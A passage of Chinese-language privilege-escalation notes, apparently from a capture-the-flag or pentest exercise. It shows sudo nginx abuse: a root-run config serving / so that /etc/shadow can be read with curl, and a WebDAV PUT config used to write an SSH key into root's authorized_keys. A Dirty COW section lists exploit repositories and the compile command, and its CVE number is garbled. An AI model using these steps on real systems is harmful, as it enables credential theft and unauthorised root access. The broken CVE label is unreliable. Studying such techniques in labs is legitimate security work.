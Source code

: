 ```
sudo /usr/sbin/nginx -c /home/user/nginx1.conf
```

```
可以读取到敏感文件
curl localhost:1337/etc/shadow
```

### 文件写入

配置文件加入PUT请求

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1338;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

```
sudo /usr/sbin/nginx -c /home/user/nginx2.conf
```

可以进行文件写入，将本地root用户的公钥写入，使用ssh连接

```
curl -X PUT localhost:1338/root/.ssh/authorized_keys -d 'id_rsa.pub'
ssh -i ~/.ssh/id_rsa root@10.10.11.243
```



# 脏牛提权

利用探针脚本检测存在的漏洞

git clone https://github.com/mzet-/linux-exploit-suggester

```
cve-2016-5919
git clone https://github.com/gbonacini/CVE-2016-5195

```

https://github.com/firefart/dirtycow.git

编译使用：

```
gcc -pthread dirty.c -o dirty -lcrypt
```
